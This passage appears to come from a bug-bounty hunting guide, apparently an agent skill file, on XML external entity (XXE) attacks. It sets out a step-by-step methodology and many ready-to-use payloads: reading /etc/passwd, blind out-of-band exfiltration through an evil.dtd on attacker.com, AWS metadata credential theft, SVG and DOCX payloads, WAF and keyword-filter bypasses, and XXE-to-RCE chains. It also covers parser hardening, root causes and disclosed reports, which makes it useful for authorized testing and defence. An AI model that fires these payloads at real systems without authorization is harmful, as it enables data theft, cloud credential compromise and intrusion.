- **Large enterprise platforms** with XML-heavy backend integrations (finance, logistics, ride-sharing APIs)
- **Domains with file-read capability** — `/etc/passwd`, `/etc/shadow`, internal config files, AWS metadata endpoints
- **Subdomains sharing backend infrastructure** — one XXE endpoint can pivot to internal services across dozens of domains (as demonstrated by 26+ Uber domains via a single entry point)
- **API gateways** accepting XML content types — especially REST APIs that silently accept `Content-Type: application/xml`
- **File upload features** — SVG, DOCX, XLSX, PDF, PPTX parsers on the server side
- **SAML/SSO endpoints** — SAML assertions are XML-based and frequently vulnerable
- **Office/document processing services** — any feature that converts or processes user-supplied documents

---

### URL Patterns
```
/api/v*/xml
/upload
/import
/parse
/convert
/saml/acs
/sso/saml
/feed
/rss
/sitemap
/webdav
/soap/*
/wsdl
/service.asmx
/xmlrpc
/graphql (multipart with XML)
```

### Request/Response Headers
```
Content-Type: application/xml
Content-Type: text/xml
Content-Type: application/soap+xml
Content-Type: multipart/form-data  ← check file upload fields
Accept: application/xml
X-Content-Type-Options: (absent — good sign of loose parsing)
```

### JavaScript Patterns (source recon)
```javascript
// Look for in JS bundles
XMLSerializer
DOMParser
parseFromString
new ActiveXObject("Microsoft.XMLDOM")
$.parseXML(
xml2js
libxmljs
lxml
```

### Tech Stack Signals
- **Java stacks**: Spring, Struts, JAX-WS — default XML parsers (SAX, DOM) are XXE-vulnerable without explicit hardening
- **PHP**: `simplexml_load_string()`, `DOMDocument::loadXML()` — vulnerable by default pre-PHP 8
- **Python**: `lxml`, `xml.etree` (safe by default), `xml.sax` (unsafe)
- **Ruby**: `Nokogiri` older versions, `REXML`
- **Node.js**: `xml2js`, `libxmljs`, `fast-xml-parser` (older versions)
- **WSDL/SOAP services**: Always test — legacy XML parsing virtually guaranteed
- **File parsers**: Apache POI (Java), python-docx, LibreOffice integrations

---

## Step-by-Step Hunting Methodology

1. **Map every XML entry point** — Use Burp Suite passive scanner to flag all requests/responses with XML content types. Also intercept JSON endpoints and manually swap `Content-Type` to `application/xml` with equivalent XML body.

2. **Identify file upload features** — Upload SVG, DOCX, XLSX, and observe if the server processes/renders content. These are often XML under the hood.

3. **Attempt inline XXE (classic file read)** — Replace the XML body with a basic entity test payload targeting `/etc/passwd` or `C:\Windows\win.ini`. Observe if the value is reflected in the response.

4. **If no reflection, pivot to Blind OOB** — Set up an OOB listener (Burp Collaborator, interactsh, or a self-hosted netcat server). Inject an external entity pointing to your callback URL. Confirm DNS/HTTP hit to validate the parser is making outbound connections.

5. **Escalate Blind OOB to file exfiltration** — Use a two-stage payload: first entity loads local file, second entity sends it OOB via HTTP parameter or DNS exfiltration.

6. **Test SSRF pivot** — Point the external entity at internal network addresses (`http://169.254.169.254/latest/meta-data/`, `http://10.0.0.1/`, `http://localhost:8080/admin`). Look for differences in response timing or error messages.

7. **Test all subdomains sharing the same backend** — If one subdomain is vulnerable, enumerate and test all others systematically. Shared backend infrastructure means shared vulnerability.

8. **Test parameter-level injection** — Some endpoints parse only specific XML nodes. Inject entities into every element value, attribute value, and even element names.

9. **Test for error-based exfiltration** — If OOB is blocked, trigger XML parsing errors that include file content in the error message returned to the client.

10. **Document the full impact chain** — Demonstrate: file read → SSRF → internal service access → note which internal domains/IPs are reachable.

---

### Classic In-Band File Read
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root><data>&xxe;</data></root>
```

### Windows Equivalent
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">
]>
<root><data>&xxe;</data></root>
```

### Blind OOB — DNS/HTTP Callback
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://YOUR.BURPCOLLABORATOR.net/xxe-test">
]>
<root><data>&xxe;</data></root>
```

### Blind OOB — File Exfiltration via Parameter Entity (two-stage)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % dtd SYSTEM "http://YOUR-SERVER/evil.dtd">
  %dtd;
]>
<root><data>trigger</data></root>
```

**evil.dtd (hosted on attacker server):**
```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://YOUR-SERVER/?data=%file;'>">
%all;
```

### SSRF via XXE (AWS Metadata)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<root><data>&ssrf;</data></root>
```

### SVG XXE (for file upload endpoints)
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/hostname">]>
<svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg">
  <text font-size="14" x="0" y="16">&xxe;</text>
</svg>
```

### DOCX/XLSX XXE — Inject into `[Content_Types].xml` or `word/document.xml`
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<Types xmlns="..."><Default Extension="rels" ContentType="&xxe;"/></Types>
```

# Original JSON request
curl -X POST https://target.com/api/endpoint \
  -H "Content-Type: application/json" \
  -d '{"user":"test"}'

# Converted to XML for XXE testing
curl -X POST https://target.com/api/endpoint \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://COLLABORATOR.net">]><user>&xxe;</user>'
```

# Look for missing hardening
grep -rn "FEATURE_EXTERNAL_GENERAL_ENTITIES\|setExpandEntityReferences\|setFeature.*false" .
```

---

## Common Root Causes

1. **Default parser configurations** — Java's `DocumentBuilderFactory`, PHP's `DOMDocument`, and Python's `lxml` all support external entities by default. Developers use them without reading the security docs.

2. **Framework upgrades without security re-review** — Older versions of Spring, Struts, and similar frameworks enabled XXE by default; developers didn't re-audit XML handling when libraries changed.

3. **Hidden XML consumption** — Developers accept JSON at the API layer but convert to XML internally, or use libraries (Apache POI, python-docx) to process uploads without realizing those formats are XML containers.

4. **Copy-paste code from StackOverflow** — XML parsing examples online rarely include entity disabling. Developers copy minimal working examples straight into production.

5. **SAML/SSO library misconfigurations** — SSO integrations often delegate XML parsing to third-party libraries with XXE enabled; developers assume "library handles security."

6. **Testing gaps on non-primary content types** — QA tests JSON APIs extensively; XML code paths receive minimal security testing because they're secondary or legacy.

7. **Microservice XML messaging** — Internal service-to-service communication uses XML (SOAP, custom schemas) and is treated as a "trusted internal" concern, bypassing security review.

---

### Defense: Keyword blacklist (`ENTITY`, `DOCTYPE`, `SYSTEM`)
```xml
<!-- Case variation -->
<!DoCtYpE foo [<!EnTiTy xxe SyStEm "file:///etc/passwd">]>

<!-- Encoding bypass -->
<?xml version="1.0" encoding="UTF-16"?>
(submit the entire payload UTF-16 encoded)

<!-- Parameter entity instead of general entity -->
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe;]>
```

### Defense: External entity fetching disabled (file:// blocked)
```xml
<!-- Try alternative URI schemes -->
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY xxe SYSTEM "netdoc:///etc/passwd">       <!-- Java -->
<!ENTITY xxe SYSTEM "jar:file:///etc/passwd!/">   <!-- Java -->
<!ENTITY xxe SYSTEM "gopher://internal-service:80/_GET%20/">
```

### Defense: WAF blocking XXE patterns
```xml
<!-- Chunked transfer encoding to bypass WAF inspection -->
Transfer-Encoding: chunked

<!-- HTTP request splitting with XML payload spread across chunks -->

<!-- Use XML comments to break signatures -->
<!-–- -->DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>

<!-- Nested encoding -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "&#x66;&#x69;&#x6c;&#x65;:///etc/passwd">]>
```

### Defense: Network egress filtering (OOB blocked)
```xml
<!-- DNS-only exfiltration (port 53 often allowed) -->
<!ENTITY % data SYSTEM "file:///etc/hostname">
<!ENTITY % send "<!ENTITY exfil SYSTEM 'http://%data;.attacker.com/'>">

<!-- Error-based exfiltration (no outbound needed) -->
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///notexist/%file;'>">
  %eval; %error;
]>
```

# Try mismatched Content-Type headers
Content-Type: application/json; charset=xml
Content-Type: application/xml+json

### Defense: Input length limits
```xml
<!-- Use billion laughs to test parser limits, and use short file paths -->
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;">
]>
<!-- Escalate to demonstrate DoS if XXE file-read is patched -->
```

---

## Parser-ecosystem vulnerability matrix

XXE classic payloads (`<!ENTITY xxe SYSTEM "file://...">`) are not universally exploitable in 2026. Most mainstream language ecosystems have hardened their default XML parsers since 2018-2024. Fingerprint the target stack BEFORE investing time in XXE — sometimes the parser is already safe and the bug class doesn't apply.

| Ecosystem / parser | Default behavior on SYSTEM entity | Vulnerable by default? |
|---|---|---|
| Java SAX / DOM (`XMLInputFactory` without disabling external entities) | Expands SYSTEM file:// | **YES** |
| Java JAXB / JAX-WS (older Spring versions) | Expands | **YES** |
| PHP `DOMDocument` with `LIBXML_NOENT` flag | Expands SYSTEM | **YES** |
| PHP `simplexml_load_*` with `LIBXML_NOENT` | Expands | **YES** |
| .NET `XmlDocument` with `XmlResolver` explicitly set | Expands | **YES** |
| .NET `XmlReader` with `DtdProcessing=Parse` + `XmlResolver` explicitly set | Expands | **YES** (default since .NET 4.5.2 is `DtdProcessing.Prohibit`, which THROWS on any DOCTYPE — modern default is safe) |
| Python `xml.etree.ElementTree` ≥ 3.7.1 | SYSTEM disabled | NO |
| Python `lxml` (verified 6.x; likely ≥ 5.x) | Drops SYSTEM file content even with `resolve_entities=True`; may still issue network fetches when `no_network=False` | NO for file read (verified locally on 6.1.0 — see `docs/verification/phase2g-saml-mfa-xxe.md`) |
| Python `xml.dom.minidom` | Default safe in current versions | NO |
| Python `defusedxml.lxml` | Disabled | NO |
| Ruby Nokogiri default | Disabled | NO |
| Ruby Nokogiri with `Nokogiri::XML::ParseOptions::DTDLOAD` | Expands | **YES** |
| Apache Struts (older) | Often expands | **YES** |
| Embedded IoT / industrial XML processors (firmware) | Frequently vulnerable | **YES** |
| Microsoft Office OOXML processors that re-parse user content | Vulnerable in some legacy paths | **YES** |

**Fingerprint signals to look for:**

- `Server: Apache Tomcat`, `X-Powered-By: Servlet` → Java backend → **likely YES**
- `X-Powered-By: PHP/...` + endpoint that ingests XML → **likely YES** if app uses `DOMDocument`
- `Server: Microsoft-IIS` with `.aspx` and XML SOAP → **likely YES** on legacy code
- Server says nothing identifiable + endpoint accepts XML → **probe with `&hello;` first**; if the inline entity expands, escalate to SYSTEM. If the inline entity also fails to expand, the parser may be hardened — pivot.

**Pre-Severity Gate:** before claiming XXE on a candidate endpoint, run the inline-entity probe (`<!ENTITY hello "world!">` then `&hello;` in a node). If `hello!` does NOT echo back, parser-level entity expansion is disabled and SYSTEM file:// won't work either. Don't waste cycles on a hardened parser.

---

## Gate 0 Validation

Before writing the report, answer all three:

1. **What can the attacker DO right now?**
   - Can you show the contents of `/etc/passwd` or `win.ini` in the response? OR can you demonstrate a confirmed OOB callback with a file's contents transmitted to your server? OR can you reach an internal SSRF endpoint (metadata, internal admin)?

2. **What does the victim LOSE?**
   - Specific sensitive data must be identified: internal credentials, AWS IAM keys, application config files with DB passwords, PII, or internal network topology. "Parser made a DNS request" alone is insufficient — escalate to demonstrate actual data exposure or internal access.

3. **Can it be reproduced in 10 minutes from scratch?**
   - You must have a single `curl` command or Burp repeater request that a triage engineer can run against the live target and see the impact within 10 minutes, with zero ambiguity about the vulnerable parameter and endpoint.

---

### Scenario A: Single Endpoint → 26 Domains Compromised (Uber-scale)
A tester discovered an XML parsing endpoint on one Uber subdomain. The backend processed XML using a vulnerable parser, and the server made outbound HTTP requests to attacker-controlled infrastructure (blind OOB). Because the vulnerable XML processing service was a shared internal microservice, the same vulnerability was reachable through 26+ different public-facing domains — all sharing the backend. A single payload could read `/etc/passwd`, internal config files, and reach AWS metadata endpoints, effectively giving access to credentials reusable across the entire infrastructure.

**Business impact**: Full internal service compromise across the majority of the production domain fleet; potential for credential theft and lateral movement.

### Scenario B: Document Upload → Local File Read on Twitter-scale Platform
An attacker uploaded a crafted XML-based document (e.g., SVG or Office format) to a document processing feature on a major social platform. The server-side parser processed the embedded DTD and external entity references, returning local file contents in the parsed output or error messages. The attacker could read application config files containing database connection strings, internal API keys, and potentially private user data stored on the same filesystem.

**Business impact**: Exposure of production secrets (database credentials, API keys) via a feature intended for harmless file uploads; no authentication bypass required beyond a standard user account.

### Scenario C: JSON API → Hidden XML Parser → SSRF to Internal Services
A REST API endpoint nominally accepting JSON was found to also parse requests submitted as `application/xml`. The underlying service converted XML to an internal format using an unpatched Java `DocumentBuilderFactory`. By injecting a SYSTEM entity pointing at `http://10.0.0.x` address ranges, the tester could probe internal services, reach an unauthenticated internal admin panel, and retrieve AWS instance metadata including temporary IAM credentials — all through a single API call requiring only a valid session token.

**Business impact**: Complete AWS credential compromise from a single authenticated API call, enabling privilege escalation from application-level user to cloud infrastructure administrator.

---

## Disclosed Report Citations (Backfill +6 — 2016-2024)

The following real, verified bug-bounty / coordinated-disclosure cases extend this skill. Three cases (#7, #9, #10) are OOB-required (blind) — they cross-reference the `hunt-ssrf` OOB-Or-It-Didn't-Happen Gate and cannot be claimed without a Collaborator/interactsh callback.

5. **Mail.ru — Pulse RSS/Atom feed XXE (file read)** ([H1 #505947](https://hackerone.com/reports/505947))
    - Subclass: direct file-read XXE (in-band)
    - Payload: `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>` inside RSS feed body → `<title>&xxe;</title>` reflected in response
    - Root cause: pulse.mail.ru RSS/Atom ingestion called an XML parser with `external general entities` enabled
    - Year: 2019 — **$6,000**

6. **Twitter — sms-be-vip.twitter.com SOAP/SXMP servlet XXE** ([H1 #248668](https://hackerone.com/reports/248668))
    - Subclass: SOAP XXE (cloudhopper SXMP servlet) — confirmed via HTTP callback **and** reflected file read
    - Payload: `<!DOCTYPE r [<!ENTITY % ext SYSTEM "http://attacker/x.dtd"> %ext;]>` chained in SXMP request body
    - Root cause: Cloudhopper SXMP servlet parsed inbound XML with default JAXP settings (entities resolved)
    - Year: 2017 — **$10,080** (classic SOAP-XXE reference case)

7. **Zivver — SVG profile-picture upload XXE → SSRF** ([H1 #897244](https://hackerone.com/reports/897244))
    - Subclass: SVG-upload XXE, OOB-confirmed, chains to SSRF
    - Payload: SVG with `<!DOCTYPE svg [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">]><text>&xxe;</text>`
    - Root cause: server thumbnailed uploaded SVG with an XML parser that resolved external entities; no entity-resolver shutdown
    - Year: 2020 — Zivver had no paid program at the time

8. **Open-Xchange — Blind XXE via PowerPoint (.pptx) import** ([H1 #334488](https://hackerone.com/reports/334488))
    - Subclass: Office-doc XXE (PPTX = ZIP of XML parts), OOB-required
    - Payload: modify `ppt/slides/slide1.xml` inside the .pptx ZIP to include `<!DOCTYPE x [<!ENTITY % a SYSTEM "http://attacker/d.dtd"> %a;]>`; external DTD chains parameter entities to exfil `file:///etc/passwd` over HTTP
    - Root cause: PowerPoint parser pre-rendered the XML parts of the OOXML container before disabling entity resolution
    - Year: 2018 — **$2,000**

9. **Uber — Blind OOB XXE on ubermovement.com** ([H1 #154096](https://hackerone.com/reports/154096))
    - Subclass: blind OOB XXE (third-party vendor product), OOB-required
    - Payload: `<!DOCTYPE r [<!ENTITY ping SYSTEM "http://attacker.example/">]><search><q>&ping;</q></search>`
    - Root cause: generic XML endpoint in Movement's vendor stack accepted XML and resolved system entities; no data exfil possible (sandboxed), only blind ping
    - Year: 2016 — **$500**

10. **Adobe Commerce / Magento — "CosmicSting" CVE-2024-34102** ([Assetnote writeup](https://www.assetnote.io/resources/research/why-nested-deserialization-is-harmful-magento-xxe-cve-2024-34102))
    - Subclass: XXE-to-RCE (nested deserialization → XXE in Laminas request body) — modern, exploited in the wild
    - Payload: REST API JSON request whose nested `simplexml_load_string()` reaches `<!DOCTYPE r [<!ENTITY % d SYSTEM "http://attacker/x.dtd"> %d;]>`; external DTD reads `app/etc/env.php` (admin crypt-key) and POSTs it back; key forges admin token → RCE
    - Root cause: `Laminas\Http\PhpEnvironment\Request` deserialized `simplexml_load_string` on attacker-controlled body without `LIBXML_NOENT` protections
    - Year: 2024 — Adobe HackerOne bounty paid, CVSS 9.8

---

## Related Skills & Chains

- **`hunt-ssrf`** — XXE is SSRF-with-XML-syntax once you discover the parser fetches external entities. Chain primitive: blind XXE OOB `<!ENTITY % x SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/role">` → exfil AWS IMDS creds via parameter-entity DTD callback → STS AssumeRole chain. Where pure SSRF is filter-blocked, `gopher://` via XXE-in-`libxml2` can still reach Redis/SMTP.
- **`hunt-file-upload`** — XXE most often hides inside file-upload features that quietly parse XML (DOCX/XLSX/PPTX, SVG, GPX, KML, OOXML, SOAP attachments). Chain primitive: upload DOCX with malicious `[Content_Types].xml` containing parameter-entity DTD → OOB file read of `/etc/passwd` / `web.config` / `.aws/credentials` via the document parser running server-side.
- **`hunt-rce`** — XXE → RCE is rare but real on PHP (`expect://`), Java (XSLT extensions with `<xsl:script>`/Xalan), and older XmlSpy/SAXON deployments. Chain primitive: XXE in a Java endpoint using a vulnerable XSLT processor → `<xsl:value-of select="rt:exec(rt:getRuntime(),'id')"/>` → RCE; or PHP XXE with `expect://id` stream wrapper enabled → direct RCE.
- **`hunt-sharepoint`** — On-prem SharePoint/Exchange/IIS stacks have a long history of XXE in SOAP/CSOM/EWS endpoints. Chain primitive: anonymous XXE in `_vti_bin/*.asmx` or EWS SOAP → read `web.config` → recover `<machineKey>` → ViewState deserialization → RCE (the ToolShell-adjacent precondition).
- **`security-arsenal`** — Reach for the XXE payload tree: standard SYSTEM file read, parameter-entity OOB DTD pattern (the `%` indirection that makes blind XXE work), `php://filter/convert.base64-encode/resource=` for binary-safe read, XInclude (`<xi:include href=...>`) when DOCTYPE is blocked, billion-laughs/quadratic-blowup for DoS, and the `jar://` / `netdoc://` Java-specific wrappers.
- **`triage-validation`** — Apply the Reproducibility + Pre-Severity Gates. An XXE that only triggers an OOB DNS callback with NO data exfil is Low/Medium (information disclosure of "this parser fetches entities"), not Critical. Critical needs proof of file read or internal HTTP — show the actual `/etc/passwd` content or the IMDS JSON response in the report.